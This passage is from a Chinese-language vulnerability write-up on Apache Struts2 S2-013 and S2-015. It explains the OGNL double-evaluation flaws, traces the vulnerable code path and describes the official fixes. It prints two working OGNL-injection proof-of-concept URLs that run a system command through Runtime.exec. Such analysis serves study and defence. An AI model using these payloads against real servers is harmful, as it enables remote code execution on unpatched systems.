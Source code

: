 在S2中`s:url`和`s:a`这两个标签都提供了includeParams属性，这个属性主要是用于标志是否包含http请求参数。

- none: URL中不包含参数
- get：URL中只包含GET型参数
- all：URL中包含GET型和POST型参数

而当URL中带有参数的时候，S2会二次处理URL，如果参数中包含恶意的Ognl语句，那么就会按照Ognl语法解析。

poc:
```
http://localhost:8080/S2_013_war_exploded/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27calc%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read%28%23d%29%2C%23out%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23out.println%28%2bnew%20java.lang.String%28%23d%29%29%2C%23out.close%28%29%7D
```

## 漏洞分析

深入跟到`struts2-core-2.2.3.jar!\org\apache\struts2\views\util\UrlHelper.class`

![image.png-96kB][10]

然后跟到函数`buildParameterSubstring`

![image.png-16.1kB][11]

最后进入`translateAndEncode`导致命令执行
![image.png-57.4kB][12]

## 漏洞修复

最开始官方修复这个漏洞是通过限制`%{(#exp)}`来阻止执行的，也正是这样，导致了S2-014的诞生。

所以在接下来的修复中，官方使用了encode函数来代替`translateAndEncode`，在函数中去除了其他的处理，只保留了urlencode功能。

# S2-015

A vulnerability introduced by wildcard matching mechanism or double evaluation of OGNL Expression allows remote command execution.

简单来说就是，当服务端的参数或者action使用请求通配符动态引用，那么这个部分参数会被二次处理，并被Ognl解析。

但由于这部分的位置比较特殊，平时常用的一些符号都不能用。

poc:
```
http://localhost:8080/S2-015/${%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@java.lang.Runtime@getRuntime().exec('calc')}.action

```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cmil8bv3wv8592sutv0dbyep/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/mlwvf00mi58jlqh605a91185/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/pxpjlwykpgggdms4lxm27zgc/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/u5v2n7g4080hawat8lr3p6xn/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ar1ks3jmcchlnjd37tmmhc27/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3pxtgw2juw6nsfsm4vmhxdyy/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lyn5amkmmra6rbmuers34knr/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kifut0voqab6sssl3mgyk2pf/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cgy92yszm7yvvqovc1z9603a/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7sth7twxxrnajq77w6epgica/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/rk9uc9eqftqi6a7tbwdh223m/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3cz9e9mbrl4dr99lisrw8s1a/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/z55ena7gzy4r83e4iz3y43fo/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/e195qeml6rrnez3f2ndgcnlu/image.png